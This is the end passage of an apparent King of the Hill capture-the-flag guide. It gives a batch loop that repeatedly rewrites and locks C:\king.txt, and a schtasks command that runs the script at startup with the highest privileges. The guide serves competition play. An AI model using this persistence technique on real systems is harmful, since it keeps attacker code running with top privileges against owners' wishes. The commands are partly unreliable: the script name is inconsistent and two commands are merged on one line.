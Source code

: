* Batch file to run these commands in a loop: 
```powershell
@echo off
:loop
(
    attrib -a -s -r -i C:\king.txt
    echo Trevohack > C:\king.txt
    attrib +a +s +r +i C:\king.txt
)
goto loop 
```

* Secure your loop: 
```powershell
schtasks /create /tn "LockFileTask" /tr "C:\Windows\sys.bat" /sc onstart /rl highest /f schtasks /run /tn "LockFileTask"
```

- **Scheduled Task**: The `schtasks` command creates a scheduled task named "LockFileTask" that runs `lockfile.bat` on system startup with the highest privileges
- **/sc onstart**: Specifies that the task should run at system startup 
- **/rl highest**: Runs the task with the highest privileges
- **/f**: Forces the task creation without confirmation
- **/run**: Immediately starts the task


## The End 

That's it for now, catch ya later! 
